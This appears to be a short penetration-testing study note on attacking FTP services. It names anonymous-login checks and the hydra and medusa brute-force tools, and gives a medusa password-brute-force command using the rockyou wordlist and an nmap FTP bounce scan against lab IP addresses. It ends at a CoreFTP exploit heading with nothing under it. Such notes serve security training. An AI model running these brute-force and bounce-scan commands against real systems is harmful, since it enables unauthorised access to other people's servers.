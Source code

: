 nmap script can be used (-sC does this automatically)

```
ftp-anon
```
Source: https://nmap.org/nsedoc/scripts/ftp-anon.html

Login Bruteforcing Tools
	hydra
		https://github.com/vanhauser-thc/thc-hydra
	medusa
		https://github.com/jmk-foofus/medusa

\
Medusa example
```shell-session
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```


Scanning internal ftp servers using ftp bounce attack (nmap -b)
```shell-session
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```


Exploiting COREFTP with improperly handled put request